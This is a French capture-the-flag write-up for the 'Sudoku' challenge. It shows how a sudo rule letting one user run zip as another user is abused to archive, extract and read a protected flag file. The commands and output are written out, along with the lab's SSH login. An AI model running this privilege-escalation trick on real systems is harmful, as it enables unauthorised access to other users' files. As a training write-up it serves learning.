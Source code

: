 # Sudoku - 128 pts

Énoncé :

> Lors de l'un de vos tests de sécurité, vous compromettez un serveur applicatif. 
>  Prouvez à vos clients que vous pouvez obtenir des informations sensibles d'autres utilisateurs. 
>
>  === Connexion SSH ===
>  Login : `padawan`
>  Mdp :  `padawan`
>  Serveur :` sudoku.phack.fr`
>
>  Artiste : `@Eagleslam`



On se connecte en SSH à la machine indiqué et le message suivant apparaît :

```
 Bienvenue !

 Le flag se trouve dans /home/master/flag.txt
 Malheureusement, tu n'as pas les droits de le lire.

 Trouves un moyen d'y accéder par toi même.

 Bonne chance...
```

Nous avons un shell bash dans `/home/padawan/`. Un fichier `note.txt` se trouve dans notre home :

```
---------------------

Cher Padawan,

N'oublies pas de faire des sauvegardes régulières de tes documents personnels.
Le plus simple est de créer une archive (avec zip ou tar) je pense.

Bon courage,
Ton Master

---------------------
```

Le fichier `/home/master/flag.txt` a les permissions suivantes :

```
-r--------    1 master   root            30 Apr  1 22:56 flag.txt
```

Étant donné le nom du challenge, on va tout de suite s'intéresser à la commande `sudo` :

```
$ sudo -l
User padawan may run the following commands on sudoku:
    (master) NOPASSWD: /usr/bin/zip

```

Bingo ! L'utilisateur `padawan` peut utiliser la commande `zip` en tant que `master`.

```
$ cd /home/master/
$ ls
flag.txt
$ sudo -u master zip flag.zip flag.txt
  adding: flag.txt (stored 0%)
$ ls
flag.txt  flag.zip
$ cd
$ unzip ../master/flag.zip 
Archive:  ../master/flag.zip
 extracting: flag.txt                
$ ls
flag.txt    note.txt
$ cat flag.txt 
PHACK{U_h4v3_tH3_suP3r_P0w3r}
```


